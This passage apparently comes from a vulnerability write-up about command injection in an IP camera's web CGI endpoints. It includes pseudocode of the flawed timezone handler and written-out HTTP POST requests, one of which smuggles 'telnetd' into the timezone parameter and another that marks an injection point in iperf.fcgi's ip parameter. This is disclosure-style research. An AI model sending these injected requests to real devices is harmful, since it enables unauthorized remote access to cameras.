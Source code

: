 Simplified pesudocode of what happens on the camera is shown below:

~~~
char* timezone = get_parameter("timezone");
char hours[16];
char gmt[24];
strcpy(hours, timezone + 4);
sprintf(gmt, "GMT-%s", hours);
exec("echo %s > %s", gmt, "/usr/local/etc/TZ");

void exec(char* c, ...)	{
	char cmd[0x400];
	va_list arg;
	va_start(arg, c);
	vsnprintf(cmd, 0x400, c, arg);
	system(cmd);
}
~~~

There is one significant restriction on this vulnerability, the maximum length
of commands is 15 characters (excluding last zero-byte). Although this is a
restriction, it is also a vulnerability as a buffer overflow is triggered if the
string is longer (this is discussed later).

Command injection can be verified by starting a Telnet-server, the full request
can be seen below:

~~~
POST /settimezone.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 53
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

timezone=GMT-;telnetd;&area=Europe/Oslo&source=Android
~~~

It was possible to verify the command with Nmap, however it was not possible to
login. For an unknown reason, the Telnet-server would acknowledge the
TCP-handshake and immediately close the connection.


### Command injection 2 - iperf.cgi

The second command injection is in 'iperf.cgi' and the 'ip'-parameter.

~~~
POST /iperf.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 79
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

op=client&ip=[;cmd injection;]&sec=1&para=1
~~~
